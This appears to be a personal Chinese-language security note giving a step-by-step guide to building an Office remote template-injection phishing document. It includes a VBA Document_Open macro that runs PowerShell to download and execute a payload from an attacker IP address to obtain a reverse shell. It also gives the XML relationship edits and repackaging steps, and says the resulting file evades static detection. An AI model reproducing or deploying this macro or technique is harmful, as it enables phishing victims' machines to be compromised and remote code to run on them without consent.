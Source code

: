 ```yaml
---
category:
  - 网络安全
  - 钓鱼
tags:
  - 钓鱼附件
  - Office
  - 关系模板注入
---
```


# Office关系模板注入

> [干货 | Office文档钓鱼的实战和免杀技巧-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1917641)
>
> [wps和office宏钓鱼从认识到免杀 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/317116.html)
>
> [已阻止有潜在危险的宏 - Microsoft 支持](https://support.microsoft.com/zh-cn/topic/已阻止有潜在危险的宏-0952faa0-37e7-4316-b61d-5b5ed6024216)
>
> [利用模板注入攻击关键基础设施 (cisco.com)](https://www.cisco.com/c/dam/m/zh_cn/products/security/talos/template-injection.pdf)
>
> 

- 测试环境: Win10+Office365

利用Word文档加载附加模板时的缺陷所发起的恶意请求，而达到的攻击目的，当目标用户点开攻击者发送的恶意Word文档就可以通过向远程服务器发送恶意请求的方式，然后加载模板执行恶意模板的宏。

发送的文档本身不带恶意代码，所以能过很多静态检测。只需要在远程DOTM文档中编写宏病毒或者木马即可。

制作一个宏钓鱼的文档挂载到 HTTP 服务器上, 例如前面的 VBA 宏调 Powershell 下载与执行文件达成反弹shell

```vb
Private Sub Document_Open()

Call Shell(Environ$("COMSPEC") & " /c powershell.exe curl http://100.1.1.131:8000/download/msedge.exe -o msedge.exe && msedge.exe", vbNormalFocus)

End Sub

```

选定目标 word 文档后将其后缀名改成 `.zip` 并解压

![image-20240611053738672](http://cdn.ayusummer233.top/DailyNotes/202406110609857.png)

整体目录结构如下:

![image-20240611053804070](http://cdn.ayusummer233.top/DailyNotes/202406110609303.png)

制作关系模板注入文档主要需要修改两个文件

- `\word\_rels\settings.xml.rels`

  一般 `word/_rels` 文档里可能只有 `document.xml.rels` 没有  `settings.xml.rels`, 此时需要新建一个 `settings.xml.rels` 文档

  ![image-20240611054035175](http://cdn.ayusummer233.top/DailyNotes/202406110609832.png)

  几个关键点

  - `Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate"`

    最后一定要是 `attachedTemplate` 定义关系模板

  - `TargetMode` 要是 `External` 外部模板定义

- `\word\settings.xml`

  在 `w:settings` 属性中定义外部模板

  ![image-20240611054105685](http://cdn.ayusummer233.top/DailyNotes/202406110609115.png)

将目录重新打包成 zip 并重命名为 docx 文档

![image-20240611055158981](http://cdn.ayusummer233.top/DailyNotes/202406110609548.png)

到这里模板注入的钓鱼文档就制作好了, 但是由于这里外联模板直接填的ip是不受信任的, 因此这里即便打开了也不会正常加载外部模板, 需要添加受信任站点

> [已阻止有潜在危险的宏 - Microsoft 支持](https://support.microsoft.com/zh-cn/topic/已阻止有潜在危险的宏-0952faa0-37e7-4316-b61d-5b5ed6024216)

打开 `Internet选项->受信任的站点->站点` 添加目标主机即可

![image-20240611103839273](http://cdn.ayusummer233.top/DailyNotes/202406111038830.png)

![image-20240611103954699](http://cdn.ayusummer233.top/DailyNotes/202406111039797.png)

![image-20240611104113796](http://cdn.ayusummer233.top/DailyNotes/202406111041875.png)

---

打开该文档便会下载外部模板文档并执行宏代码达成反弹shell:

![image-20240611060918908](http://cdn.ayusummer233.top/DailyNotes/202406110609052.png)

![image-20240611060910931](http://cdn.ayusummer233.top/DailyNotes/202406110609182.png)



---

## 相关链接

- [常见钓鱼招式 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/10339?time__1311=Cqjx2QD%3DiteWqGNDQimOgbtDtt0QtDReOYD)

---

